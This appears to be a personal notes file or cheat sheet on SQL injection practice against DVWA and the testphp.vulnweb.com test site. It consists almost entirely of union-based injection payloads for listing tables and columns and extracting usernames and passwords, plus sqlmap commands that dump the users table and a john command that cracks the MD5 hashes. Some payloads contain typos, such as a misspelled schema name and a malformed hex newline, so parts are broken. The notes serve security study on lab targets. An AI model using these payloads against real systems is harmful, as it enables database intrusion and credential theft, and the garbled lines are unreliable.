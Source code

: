 sql injeciton low vulnerabilities: - 

1

1'

%

%' or '0'='0

%' or '0'='0' union select * from password #

%' or '0'='0' union select  COLUMN_NAME from information_schema.COLUMNS #

%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #

%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = 'users' #

%' or '0'='0' union select user, password from dvwa.users # 


after observ the md5 password now decode the password using john 

john --wordlist=rockyou.txt --format=Raw-MD5 hashes.txt



method 2 low sql injeciton : - 

1

1'  -- if you show sql syntax error that's mean that is a sql injeciton vulnerability.

SELECT first_name, last_name FROM users WHERE user_id = ''';

%' or '0' = '0

SELECT first_name, last_name FROM users WHERE user_id = '%' or '0' = '0';

%' or 0=0 union select null, version() #

SELECT first_name, last_name FROM users WHERE user_id = '%' or 0=0 union select null, version() #';

'% or 0=0 union select null, version() #

%' UNION SELECT null, column_name FROM INFORMATION_SCHEMA.columns WHERE table_name='users'#

%' UNION SELECT null, concat(user,0x0a,password) FROM users#


using sqlmap : - 

http://172.17.0.2/vulnerabilities/sqli/?id=1&Submit=Submit#

sqlmap -u 'http://172.17.0.2/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie "PHPSESSID=qehkul5i897soktsniinft21s3; security=low" --dbs

sqlmap -u 'http://172.17.0.2/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie "PHPSESSID=qehkul5i897soktsniinft21s3; security=low" -D dvwa --tables

sqlmap -u 'http://172.17.0.2/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie "PHPSESSID=qehkul5i897soktsniinft21s3; security=low" -D dvwa -T users --columns

sqlmap -u 'http://172.17.0.2/vulnerabilities/sqli/?id=1&Submit=Submit#' --c

ookie "PHPSESSID=qehkul5i897soktsniinft21s3; security=low" -D dvwa -T users --dump


example testphp.vulnweb.com : - 

if you show the vulneable parameter like ?cat=1

http://testphp.vulnweb.com/list-products.php?cat=1'    --- show sql syntax error
						       --- add ''' 3 coat's
						       ---"cat=1"' query unbalancing error
						       ---"select * from t"' if you add 3 coats then query is unbalancing
						       
http://testphp.vulnweb.com/list-products.php?cat=1 order by 1 --+

http://testphp.vulnweb.com/list-products.php?cat=1 order by 2 --+

http://testphp.vulnweb.com/list-products.php?cat=1 order by 3 --+  -- now check no of columns ex: 50

union query : - 
http://testphp.vulnweb.com/list-products.php?cat=1 union select 1,2,3,4,5,6,7,8,9,10,11--+

http://testphp.vulnweb.com/list-products.php?cat=1 union select 1,2,3,4,5,6,database(),8,version(),10,11--+

http://testphp.vulnweb.com/list-products.php?cat=1 union select 1,table_name,3,4,5,6,7,8,9,10,11 from informaiton_schema.tables--+

http://testphp.vulnweb.com/list-products.php?cat=1 union select 1,table_name,3,4,5,6,7,8,9,10,11 from information_schema.tables where table_schema="acuart"--+

http://testphp.vulnweb.com/list-products.php?cat=1 union select 1,column_name,3,4,5,6,7,8,9,10,11 from information_schema.columns where table_name='users'--+

http://testphp.vulnweb.com/list-products.php?cat=1 union select 1,group_concat(uname,oxoa,pass,"",cc)3,4,5,6,7,8,9,10,11 from users--+
